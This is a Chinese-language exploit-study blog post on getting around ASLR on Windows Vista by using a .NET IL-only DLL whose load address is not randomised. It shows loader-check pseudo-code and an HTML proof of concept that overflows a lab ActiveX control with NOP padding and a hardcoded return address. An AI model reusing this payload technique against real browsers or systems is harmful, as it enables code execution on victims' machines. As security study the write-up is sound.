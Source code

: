 ```yaml
---
layout:		post
title:		为.NET控件禁用ASLR
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows Vista Ultimate sp0 x86  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>注意: 关闭系统DEP  
<!-- more -->


PE文件是否启用ASLR校验过程

```
......
if( !(pBinaryInfo->pHeaderInfo->usDllCharacteristics & IMAGE_DLL_ CHARACTERISTICS_ DYNAMIC_BASE) &&
		!(pBinaryInfo->pHeaderInfo->bFlags &PINFO_IL_ONLY_IMAGE) && !(_MmMoveImages == -1) )
{
	MiNoRelocate++;
	return 0;
}
......
```

.NET文件是否IL-Only校验过程, 版本号<2.5认定为IL-Only

```
......
if( ( (pCORHeader->MajorRuntimeVersion > 2) || (pCORHeader->MajorRuntime- Version == 2 && 
	pCORHeader->MinorRuntimeVersion >= 5) ) && (pCORHeader->Flags & COMIMAGE_FLAGS_ILONLY) )
{
	pImageControlArea->pBinaryInfo->pHeaderInfo->bFlags |= PINFO_IL_ONLY_
	IMAGE;
	......
}
......
```

修改DEP_NETDLL.dll

![](/assets/img/exploit/2017-12-30-break-aslr-dot-net/0x00.png)
![](/assets/img/exploit/2017-12-30-break-aslr-dot-net/0x01.png)

新建test.html, 这里依旧要用到VulnerAX.ocx

```
<html>
<body>
<object classID="DEP_NETDLL.dll#DEP_NETDLL.Class1"></object>
<object classid="clsid:A5E74D94-AAB9-4A83-8216-250BA9D9E578" id="test"></object>
<script>
var s="\u9090";
while(s.length<54){
	s+="\u9090";
}
s+="\u24E2\u2424";
test.test(s);
</script>
</body>
</html>
```

OD附加上去, DEP_NETDLL.dll的加载基址没有随机化

![](/assets/img/exploit/2017-12-30-break-aslr-dot-net/0x02.png)

直接运行, pwn~

![](/assets/img/exploit/2017-12-30-break-aslr-dot-net/0x03.png)